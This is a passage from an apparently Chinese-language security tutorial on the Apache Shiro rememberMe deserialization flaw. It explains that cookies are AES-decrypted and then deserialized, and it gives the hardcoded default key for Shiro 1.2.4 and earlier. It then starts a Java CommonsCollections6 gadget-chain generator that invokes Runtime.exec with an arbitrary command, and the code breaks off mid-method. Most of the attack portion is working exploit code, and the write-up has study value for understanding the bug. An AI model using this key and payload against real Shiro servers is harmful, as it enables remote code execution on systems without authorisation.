 convertBytesToPrincipals方法先进行解密，然后反序列化

![image.png](https://assets.b3logfile.com/siyuan/1642857713240/assets/image-20220405235525-7gdo2js.png)<br />

（中间跳过了几个步骤）在这里readObject

![image.png](https://assets.b3logfile.com/siyuan/1642857713240/assets/image-20220406000506-u1b6prl.png)

## aes key

其实这个过程中可以发现一个很关键的问题，就是aes的密钥，如果密钥错了是不能够反序列化的

所以只有知道密钥才能够触发remberMe带来的反序列化漏洞，而在Shiro≤1.2.4中默认密钥为kPH+bIxk5D2deZiIxcaaaA==。官方针对这个漏洞的修复方式是去掉了默认的Key，生成随机的Key。所以高于这个版本的地方这个点就不能使用了。


# ACC6打shiro

在刚刚的项目中也有一个shiroAttack项目，可以当作参考使用，但是这里我们还是自己建一个项目来生成payload

因为项目中有commons collections依赖，所以直接生成一个cc6来打

## Transformer数组型

CommonsCollections6.java

> 其实参考p牛的写法，之后自己写的时候也可以效仿他getPayload的写法。
>

```java
package com.payload;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;


public class CommonsCollections6 {
    public byte[] getPayload(String command) throws Exception {
        Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] { String.class,
                        Class[].class }, new Object[] { "getRuntime",
                        new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class,
                        Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class },
                        new String[] { command }),
                new ConstantTransformer(1),
        };
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);

        // 不再使用原CommonsCollections6中的HashSet，直接使用HashMap
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
```